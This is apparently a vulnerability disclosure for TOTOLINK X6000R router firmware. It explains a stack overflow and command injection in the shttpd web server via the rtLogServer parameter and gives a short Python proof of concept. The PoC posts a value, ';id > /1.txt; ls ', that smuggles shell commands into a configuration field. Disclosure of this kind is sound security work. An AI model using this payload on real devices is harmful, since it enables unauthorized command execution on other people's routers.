


## Overview

- Manufacturer's website: https://www.totolink.net/
- Firmware download website:
  - https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

## Affected version

totolink X6000R V9.4.0cu.852_20230719

## Vulnerability details

A stack overflow and command injection vulnerability exists in the `FUN_00415aa4` function of program `/usr/sbin/shttpd` in X6000R V9.4.0cu.852_20230719. The function gets the `rtLogServer` parameter and some other parameters from the user request. When `rtLogEnabled` is 1, `rtLogServer` is concatenated to `acStack_108`, a process that may cause stack overflow. Subsequently `acStack_108` is passed to `CsteSystem`, a function that eventually executes execv, causing command injection.



## PoC

```python
import requests
url = "http://192.168.244.142/cgi-bin/cstecgi.cgi"

data = {
    "topicurl":"setSyslogCfg",
    "enable":"0",
    "rtLogEnabled":"1",
    "rtLogServer":";id > /1.txt; ls "
}

headers = {
    "Origin": "http://192.168.244.142",
    "Referer": "http://192.168.244.142/login.html"
}

response = requests.post(url, data=data, headers=headers)
print(response.text)
print(response)
```

Here is a screenshot of command injection:


